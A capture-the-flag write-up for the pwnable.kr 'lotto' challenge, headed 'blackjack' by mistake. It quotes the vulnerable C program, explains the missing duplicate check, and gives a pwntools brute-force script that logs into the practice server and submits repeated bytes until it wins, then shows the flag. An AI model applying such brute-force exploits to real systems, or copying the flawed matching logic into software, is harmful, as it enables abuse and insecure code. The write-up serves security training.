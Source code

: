# blackjack

## Description

lotto - 2 pt

>Mommy! I made a lotto program for my homework. <br>
>do you want to play? <br> <br> <br>
> ssh lotto@pwnable.kr -p2222 (pw:guest)


## Solution

### Exploit

In this challenge, we are presented with a lotto program. Our goal is to win the lotto and get flag:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

unsigned char submit[6];

void play(){
	
	int i;
	printf("Submit your 6 lotto bytes : ");
	fflush(stdout);

	int r;
	r = read(0, submit, 6);

	printf("Lotto Start!\n");
	//sleep(1);

	// generate lotto numbers
	int fd = open("/dev/urandom", O_RDONLY);
	if(fd==-1){
		printf("error. tell admin\n");
		exit(-1);
	}
	unsigned char lotto[6];
	if(read(fd, lotto, 6) != 6){
		printf("error2. tell admin\n");
		exit(-1);
	}
	for(i=0; i<6; i++){
		lotto[i] = (lotto[i] % 45) + 1;		// 1 ~ 45
	}
	close(fd);
	
	// calculate lotto score
	int match = 0, j = 0;
	for(i=0; i<6; i++){
		for(j=0; j<6; j++){
			if(lotto[i] == submit[j]){
				match++;
			}
		}
	}

	// win!
	if(match == 6){
		system("/bin/cat flag");
	}
	else{
		printf("bad luck...\n");
	}

}

...
```

The game is simple. We have to submit 6 bytes and the program will generate 6 random bytes in the range [1,45]. If we get 6 matches we win and get the flag!

The key observation here is we don't need to guess *all* 6 bytes. We can guess only 1 byte and get the flag. The reason is that the program compares each byte of our input with each all of the generated bytes. So if we guess 1 byte correctly, we will get 6 matches.

We can write a simple bruteforce script that guesses the same byte for all 6 bytes and checks if we get 6 matches:

```python
from pwn import *

con = ssh('lotto', 'pwnable.kr', port=2222, password='guest')

p = con.process('./lotto')

while True:
    p.recvuntil(b'3. Exit\n')
    p.sendline(b'1')
    p.recvuntil(b'Submit your 6 lotto bytes : ')
    p.sendline(b'######')
    p.recvuntil(b'Lotto Start!\n')
    
    res = p.recvline().decode()
    
        
    if 'bad' not in res:
        print(res)
        break
```

Running the script gives us the flag:

```
sorry mom... I FORGOT to check duplicate numbers...
```